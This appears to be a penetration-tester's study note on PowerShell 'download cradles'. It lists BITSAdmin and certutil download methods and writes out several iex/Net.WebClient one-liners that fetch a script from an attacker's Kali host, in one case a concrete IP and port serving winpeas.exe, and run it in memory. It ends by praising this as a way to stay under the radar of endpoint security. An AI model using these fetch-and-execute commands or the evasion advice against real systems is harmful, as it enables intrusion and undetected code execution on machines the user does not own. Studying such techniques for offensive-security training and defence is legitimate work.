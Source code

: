 - A summary of methods we can use For **Disk-Based** execution with PowerShell 2.0:

```powershell
Net.WebClient DownloadFile method
BITSAdmin.exe
Certutil.exe w/ -urlcache argument
```

> These two methods are commonly referred to as **Download Cradles**

### From the PowerShell console
```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/script.ps1")
```

   //iex = Invoke-Expression

### From the cmd.exe
we can run the same command from a stardard windows command prompt:

```powershell
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/script.ps1')

powershell.exe iex (New-Object Net.WebClient).DownloadString("http://10.90.60.80:5923/winpeas.exe")
	//note that when executed within cmd.exe we need to use single quotes
```

### Net.WebClient DownloadString Method
```powershell

$downloader = New-Object System.Net.WebClient
$payload = "http://<kali ip>/script.ps1"
$command = $downloader.DownloadString($payload)
Invoke-Expression $command

```

Instantiate our System.Net.WebClient class as the $downloader variable
Create our $payload variable (URL to the script)
Create our $command variable
Execute our $command with the **Invoke-Expression** (iex) cmdlet


### Example - Download String
save in Get-ProcessPaths.ps1
```powershell
Get-Process | Format-List -Property Name, Path
```

Host in a web server
Then:
```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Get-ProcessPaths.ps1")
```

- The DownloadString method will execute our remote script in the PowerShell process memory, so in regard to not dropping an artifact to disk, its a great way to stay under the radar of endpoint security solutions that are not monitoring powershell memory.
